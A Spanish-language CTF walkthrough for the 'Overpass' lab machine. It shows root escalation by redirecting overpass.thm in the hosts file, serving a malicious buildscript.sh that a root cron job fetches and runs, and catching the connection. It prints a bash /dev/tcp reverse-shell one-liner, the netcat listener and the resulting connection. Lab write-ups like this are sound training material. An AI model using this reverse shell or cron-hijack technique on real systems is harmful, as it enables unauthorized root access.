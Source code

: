 1️⃣ Manipulación del Host File (Atacante)

Para que el servidor víctima resuelva el dominio a nuestra IP, debemos asegurarnos de que el DNS o el archivo hosts del target apunten a nuestra máquina. 

Asumiremos, como es común en este CTF, que el sistema DNS del target está configurado para resolver dominios personalizados a través de la red VPN, permitiendo la explotación.

En este caso particular de Overpass, el dominio overpass.thm debe apuntar a tu IP de atacante.

<img width="540" height="160" alt="arhicvo hosts" src="https://github.com/user-attachments/assets/e2b57351-0e82-4f8c-b7d7-544c080c7835" />


2️⃣ Creación del Script Malicioso

Creamos un archivo llamado buildscript.sh en nuestra máquina de ataque con el payload de reverse shell. Esto nos dará una shell con permisos de root:

<img width="1920" height="1080" alt="creo un arhcivo buildscript" src="https://github.com/user-attachments/assets/f2c6ca4b-bb1b-45ff-9459-8cebb1f5fb6b" />


````
Bash
#!/bin/bash
bash -i >& /dev/tcp/[TU_IP_VPN]/4444 0>&1
````

3️⃣ Configuración del Servidor y Listener

Guardamos el script en la ruta correcta (/downloads/src/buildscript.sh) en nuestra máquina atacante y levantamos el servidor HTTP, asegurándonos de usar el puerto 80 (el predeterminado para curl). 

Simultáneamente, configuramos un listener con netcat:

Máquina Atacante (Kali):

````
Bash
# 1. Configurar servidor web (en el directorio donde se guarda el script)
$ python3 -m http.server 80 
# 2. Configurar listener
$ nc -lvnp 4444
````

🏆 Shell de Root y Bandera Final

Al cabo de un minuto (cuando el cron job se ejecuta), el servidor víctima se conecta a nuestra máquina, descarga el script de reverse shell y lo ejecuta como root.

El listener de netcat recibe la conexión, dándonos acceso de root al sistema:

<img width="1480" height="224" alt="recibiendo comnicaccio" src="https://github.com/user-attachments/assets/bf80355e-4950-4b58-a0bd-0ce4c3a6393e" />

````
Bash
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.13.243] 58872
````
